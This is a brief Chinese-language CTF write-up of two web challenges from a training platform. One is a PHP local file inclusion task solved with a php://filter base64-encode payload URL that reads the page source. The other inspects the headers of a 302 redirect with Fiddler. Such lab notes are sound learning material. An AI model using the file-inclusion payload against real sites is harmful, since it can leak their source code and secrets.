 ##CTF联系纪要##
##实验地址：https://cgctf.nuptsast.com/challenges#Web###
###实验资料：https://ctf-wiki.github.io/ctf-wiki

1.web
 .文件包含 属于php代码审计类
 题目：文件包含没错 这就是传说中的LFI
 源码分析：<html>
    <title>asdf</title>
    
<a href="./index.php?file=show.php">click me? no</a></html>
使用连接：http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/convert.base64-encode/resource=index.php  decode base64获得flag

.查看header 单身一百年也没用
源码分析：
<html>
    <head>
        <meta http-equiv="content-type" content="text/html;charset=utf-8">
    </head>
    <body>
        <a href="./index.php">_到这里找key__</a>
    </body>
</html>
使用工具fiddler  这是一个302重定向  查看header的 miscellaneous 得到flag
